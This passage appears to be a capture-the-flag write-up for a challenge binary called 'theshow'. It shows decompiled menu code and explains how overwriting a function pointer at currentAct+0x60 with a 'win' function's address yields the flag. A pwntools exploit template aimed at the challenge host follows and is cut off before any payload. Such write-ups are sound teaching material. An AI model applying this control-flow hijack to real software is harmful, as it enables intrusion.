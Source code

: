 Let's look at what we can do with this in the `whatToDo` function:

```c
sym.puts("What would you like to do?");
var_10h._0_4_ = 0;
var_10h._4_4_ = 0;
sym.puts((char *)0x4bb229);
sym.puts("|   Actions   |");
sym.puts((char *)0x4bb249);
sym.puts("| Perform Act |");
sym.puts("| Switch Act  |");
sym.puts("| End Show    |");
iVar2 = sym.puts("+-------------|");
iVar2 = sym.__printf(iVar2, param_2, param_3, param_4, param_5, param_6, param_7, param_8, (int64_t)"Action: ", 
                        param_10, arg3, param_12, param_13, param_14);
sym.__isoc99_scanf(iVar2, param_2, param_3, param_4, param_5, param_6, param_7, param_8, (char *)0x4bb2a2, 
                    (int64_t)&var_10h, arg3_00, param_12, param_13, param_14);
if ((int32_t)var_10h == 2) {
    sym.switchAct();
    sym.puts("I think the current act switched switched. It might appear when we start up again...");
}
else {
    if ((int32_t)var_10h == 3) {
        var_10h._4_4_ = 1;
    }
    else {
        if ((int32_t)var_10h == 1) {
            (**(code **)(_obj.currentAct + 0x60))();
        }
    }
}
```

Notice that the "Perform Act" action calls a function pointer at `_obj.currentAct + 0x60`.
Note that `_obj.currentAct` is set to `_obj.mainAct` in the setup function.
By overwriting this function pointer with the address of the `win` function, we can make the program call this function and print the flag instead.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 0.cloud.chals.io --port 30138 theshow
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('theshow')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '0.cloud.chals.io'
port = int(args.PORT or 30138)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
```